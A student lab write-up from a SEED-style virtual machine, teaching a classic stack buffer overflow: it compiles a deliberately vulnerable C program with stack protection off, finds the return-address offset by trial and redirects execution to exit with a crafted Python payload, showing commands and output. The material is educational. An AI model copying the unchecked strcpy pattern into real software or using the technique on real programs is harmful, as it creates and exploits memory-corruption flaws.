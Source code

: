 # Lab3 - Buffer overflow

## Simple buffer overflow example

## What are we going to do?
This example shows that after calling strcpy function, just exit program not returning to the point it was called.
To do that, we need to overwrite the return address of the strcpy function.

## Overview of process 
1. Set a address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)

## Steps in detail
1. Compile the c program below like this. '-z execstack' marks the stack as executable.
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
* gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

2. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

3. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

4. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

5. Result
* As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```





```


  
```


